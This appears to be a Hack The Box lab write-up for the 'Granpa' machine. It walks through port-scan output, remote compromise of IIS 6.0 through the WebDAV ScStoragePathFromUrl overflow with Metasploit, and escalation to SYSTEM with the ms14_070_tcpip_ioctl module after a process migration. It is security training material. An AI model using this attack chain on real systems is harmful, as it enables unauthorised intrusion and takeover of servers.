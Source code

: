 1,Recon
port scan
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Date: Fri, 01 Nov 2024 07:27:17 GMT
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

We only get the version of `IIS` is `Microsoft IIS httpd 6.0`
Then we can find something useful from exploit-db
`Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow`

So we can use msf to handle it and exploit it.
```
Executing the Metasploit module iis_webdav_scstoragepathfromurl immediately grants a shell.
The target appears to be Windows Server 2003 with x86 architecture

Computer        : GRANPA
OS              : Windows Server 2003 (5.2 Build 3790, Service Pack 2).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
```

Running `local_exploit_suggester` in Metasploit returns several recommendations:
```
1   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 2   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/ms14_070_tcpip_ioctl                     Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 6   exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.

```

In this place, `ms14_070_tcpip_ioctl` seems like be a perfect target.

At this point it is a good idea to migrate to a process running under NT AUTHORITY\NETWORK
SERVICE. In this case davcdata.exe seemed to be the only stable process available.
```
migrate 1796
```
Then continue to run the exploit script, then we can get the SYSTEM shell.